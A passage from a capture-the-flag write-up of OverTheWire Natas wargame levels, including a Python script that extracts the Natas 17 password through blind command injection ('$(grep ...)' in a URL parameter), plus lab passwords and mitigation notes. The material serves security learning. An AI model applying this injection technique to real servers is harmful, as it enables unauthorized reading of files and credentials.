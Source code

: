 #### What sins are evidenced in this challenge
Sin #1, Sin #12

#### How could those sins be mitigated
Don't trust user input
Use parametrized queries


---
### Natas 16

#### Credentials
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### How you passed the challenge
1) I followed a similar pattern to Natas 15, except instead of looking for a certain string, I looked for when a certain string was not on the page
2) I used grep with ```^<chars>``` to incrementally build the password one character at a time
3) If the password existed with the current set of characters, then the random word from the dictionary would not show up 
```natas16.py```
```py
import requests

alnums = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
passwd = ""
auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

for i in range(len(auth[1])):
    for char in alnums:
        string = f'(grep ^{passwd}{char} /etc/natas_webpass/natas17)'
        req = requests.get(f'http://natas16.natas.labs.overthewire.org/index.php?needle=supercomputers${string}',
                           auth=auth
                           )
        if "supercomputers" not in req.text:
            passwd += char
            print(passwd)
            break


print(passwd)
```

#### What sins are evidenced in this challenge
Sin #10, Sin #12, Sin #17

#### How could those sins be mitigated
Don't directly input user input into system calls
Don't just rely on simple blacklists for sanitization, use proper input validation


---